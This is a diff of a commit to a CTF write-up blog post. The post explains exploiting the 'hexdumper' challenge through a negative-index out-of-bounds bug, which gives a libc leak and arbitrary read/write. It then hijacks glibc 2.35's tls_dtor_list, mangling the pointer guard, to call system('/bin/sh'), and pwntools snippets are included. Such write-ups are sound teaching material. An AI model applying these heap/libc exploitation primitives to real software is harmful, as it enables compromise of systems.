

Before and after one commit to 4f3rg4n/4f3rg4n.github.io, a Jekyll site: the page built from _posts/CTF-Writeups/2025-5-12-hexdumper.md, in a window 1280 px wide and 1400 px high, scrolled down 11265 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2025-5-12-hexdumper.md

````diff
--- a/_posts/CTF-Writeups/2025-5-12-hexdumper.md
+++ b/_posts/CTF-Writeups/2025-5-12-hexdumper.md
@@ -323,7 +323,10 @@
 }
 ```
 
-This challenge provides a memory dump management service with a menu-driven interface. You can create up to 0x41 (65) dumps, each with a maximum size of 0x4141 (16705) bytes, stored in the dumps array. The available features include:
+This challenge provides a memory dump management service with a menu interface.
+You can create up to 0x41 (65) dumps, each with a maximum size of 0x4141 (16705) bytes, stored in the dumps array.
+
+The available features include:
 - Creating zero-initialized dumps
 - Viewing dumps in a hex format (similar to hexdump)
 - Modifying individual bytes
@@ -342,7 +345,7 @@
     Stripped:   No
 ```
 
-The first bug we can spot is in this condition:
+The first bug we can spot is in this condition (which can be found in four different functions):
 ```c
 // functions: hexdump_dump, change_byte, resize_dump, remove_dump.
 int idx = ask_for_index();
@@ -352,9 +355,9 @@
 ```
 
 This check only filters out the index `-1`, but what about other negative values like `-80`?
-so lets see how can we use this to leak some memory addresses.
+so lets see how can we use it to leak some memory addresses.
 
-To demonstrate how this can leak memory, I chose the `change_byte()` function:
+Now lets demonstrate this bug on the `change_byte()` function:
 ```c
 void change_byte(void) {
     int idx = ask_for_index();
@@ -385,23 +388,10 @@
 
 This function asks for a dump index and verifies that the corresponding dump exists. Then it asks for a byte offset and ensures it's within the size limit. If it's not, it prints both the offset and the dump size.
 
-The trick here is to pass a negative index like `-80`, which accesses memory outside the bounds of the dumps array. Then, we pass an extremely large offset to trigger the print statement that leaks memory:
+The trick here is to pass a negative index like `-80`, which accesses memory outside the bounds of the dumps array.
+Then, we pass an extremely large offset to trigger the print statement that leaks memory by printing the "maximum size" of the fake index:
 
 ```txt
-____    ____                         ________
-`MM'    `MM'                         `MMMMMMMb.
- MM      MM                           MM    `Mb
- MM      MM   ____  ____   ___        MM     MM ___   ___ ___  __    __  __ ____     ____  ___  __
- MM      MM  6MMMMb `MM(   )P'        MM     MM `MM    MM `MM 6MMb  6MMb `M6MMMMb   6MMMMb `MM 6MM
- MMMMMMMMMM 6M'  `Mb `MM` ,P          MM     MM  MM    MM  MM69 `MM69 `Mb MM'  `Mb 6M'  `Mb MM69
- MM      MM MM    MM  `MM,P           MM     MM  MM    MM  MM'   MM'   MM MM    MM MM    MM MM'
- MM      MM MMMMMMMM   `MM.           MM     MM  MM    MM  MM    MM    MM MM    MM MMMMMMMM MM
- MM      MM MM         d`MM.          MM     MM  MM    MM  MM    MM    MM MM    MM MM       MM
- MM      MM YM    d9  d' `MM.         MM    .M9  YM.   MM  MM    MM    MM MM.  ,M9 YM    d9 MM
-_MM_    _MM_ YMMMM9 _d_  _)MM_       _MMMMMMM9'   YMMM9MM__MM_  _MM_  _MM_MMYMMM9   YMMMM9 _MM_
-                                                                          MM
-                                                                          MM
-                                                                         _MM_
 =========== DUMP MENU ===========
 1) Create a new dump
 2) Hexdump a dump
@@ -421,13 +411,14 @@
 ==>
 ```
 
-Here, 140737353750400 is a leaked address.
-Checking its memory space reveals that it's within libc, specifically:
+Here, `140737353750400` is a leaked address.
+Checking from which memory space is it reveals that it's within libc:
 ![libc leak](/assets/images/ctf-writeups/BTS2025/libc-leak.png)
 ![leak symbol](/assets/images/ctf-writeups/BTS2025/leak-symbol.png)
 
-So we can see that this is a libc address pointing to the _IO_2_1_stdout_ object.
-Now let's write that in our pwntools exploit:
+So we can see that this libc address pointing to the `_IO_2_1_stdout_` struct.
+
+Let's write that in our pwntools exploit:
 ```py
 def leak_libc(p: process):
     send_option(p, "3")
@@ -439,11 +430,10 @@
     return libc
 ```
 
-Our next goal is to achieve arbitrary read/write.
-To do that, we need to either leak the PIE base or find a negative index that lets us overwrite the dump buffer’s pointer. That would allow us to read from or write to any address.
+Our next goal after leaking an address is to achieve `arbitrary operation read / write`.
+To do so, in our case we need to get `PIE base address` and find a negative index that lets us overwrite the dump buffer’s pointer, and that would allow us to read from or write to any address.
 
-I found that the dump buffer for index `-259` contains its own address (loop pointer).
-We can leak it or overwrite its first byte to make it point to any PIE address we want.
+I found that the dump buffer for index `-259` contains its own address on the `.BSS section` (loop pointer), so we can both use it to leak `PIE` and overwrite it with any other address we want.
 
 Here’s the function that leaks that index:
 ```py
@@ -457,9 +447,9 @@
     return bss
 ```
 
-Now we have two leaks: one for libc and one for the BSS section, and we also have the ability to perform arbitrary reads and writes to both libc and PIE addresses.
+Now we have two leaks: one for `libc` and one for the `PIE` (which can be calculated from the `.BSS section` leak), and we also have `arbitrary read & write` wich can be used both on libc and PIE addresses.
 
-So let’s implement the arbitrary write function:
+So firstly let’s implement the arbitrary write function:
 ```py
 def arbitrary_write(p: process, addr: int, data: int):
     idx = -191
@@ -470,9 +460,10 @@
     for b in range(8):
         change_byte(p, idx, b, (data >> (b * 8)) & 0xff)
 ```
-This function first edits the address pointed to by our BSS leak, then writes data to that address.
 
-We can also use the same primitive for arbitrary read.
+This function first edits the address pointed to by our `.BSS leak`, then writes data to that address.
+
+We can also use the same primitive for `arbitrary read`.
 We'll use the `hexdump_dump` feature to read and print memory at any given address:
 ```py
 def arbitrary_read(p: process, addr: int):
@@ -487,18 +478,20 @@
     return res
 ```
 
-Now that we have strong read/write primitives, we can build our exploit.
-The glibc version is 2.35, so we can't overwrite `__malloc_hook` / `__realloc_hook` / `__free_hook` because they’ve been removed or protected.
+#Exploit
+Now that we have that leaks & arbitrary read & write functions, we can start build our exploit!
 
+The Glibc version is `2.35`, so we can't overwrite `__malloc_hook` / `__realloc_hook` / `__free_hook` because they’ve been removed or protected on that newer Glibces.
 Instead, we can use a another trick: overwrite the `tls_dtor_list`, which stores function pointers that get called when the program exits.
+
 so it goes like this:
-
-1. Leak the pointer_guard (relative to libc).
-2. XOR it with the address of the function we want to run (e.g., `system()`).
-3. Rotate the result right (ROL encryption) as required by glibc's protection.
-4. Write the parameter for the function (like the address of `/bin/sh`) after the function pointer.
+1. Leak the `pointer_guard` (relative to libc).
+2. XOR it with the address of the function we want to run (e.g. `system()`).
+3. Rotate the result (ROL encryption) as required by the `tls_call_dtors` function.
+4. Write the parameter for the function (e.g. the address of `/bin/sh\0` symbol).
 5. Overwrite the first entry in the `tls_dtor_list`.
-6. Trigger an exit to run our payload.
+6. Trigger an exit.
+7. Payload is runing...
 
 Here's the pwntools code for that:
 ```py
@@ -509,11 +502,12 @@
     func ^= p_guard
     func = rol(func, 0x11, word_size=64)
 
+    # Build the tls_dotr struct in known address
     arbitrary_write(p, bss + 0x20, func)
     arbitrary_write(p, bss + 0x28, libc + BINSH)
 ```
 
-And here’s the complete exploit:
+The complete exploit:
 ```py
 from pwn import *
 
````
